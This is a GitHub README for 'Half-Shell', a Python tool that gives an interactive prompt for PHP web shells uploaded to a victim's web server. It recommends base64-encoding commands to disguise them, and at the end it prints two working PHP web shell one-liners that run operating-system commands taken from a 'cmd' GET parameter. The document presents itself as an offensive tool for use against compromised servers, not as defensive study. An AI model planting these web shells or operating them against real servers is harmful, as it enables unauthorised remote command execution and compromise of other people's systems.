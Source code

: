 # Half-Shell

Half-Shell is a simple python script to give the user a native looking prompt for communicating with uploaded $_GET php scripts.

### Prerequisites

Uses python's requests module. If you're not familiar with requests, it's more lightweight and usable compared to urllib or urllib2. More about requests can be found here: https://2.python-requests.org//en/master/

```
pip install requests
```

## Additional Info
![HELP](https://github.com/Mr-BeardFace/Images/blob/master/halfshell1.PNG)

Once a php $_GET has been uploaded onto a victim's web server, half-shell can be used to interact with the php shell that feels seamless to the user. Lame man's terms... you won't have to copy/paste commands ever 10 seconds.

Using half-shell is pretty straight forward. Enter in the url, including the location of your cmd (or otherwise) variable. If you are base64 encoding your commands (which I suggest you do) just add 'base64' to the end of the command. Other encodings are currently being looked at and could possibly be added later.

![Example](https://github.com/Mr-BeardFace/Images/blob/master/halfshell1.PNG)

For base64 encoded commands, the below are the best php one-liners to use. Others tend to not echo correctly, or do not return any data.

```
<?php system(base64_decode($_GET['cmd']));?>
<?php echo shell_exec(base64_decode($_GET['cmd']));?>
```

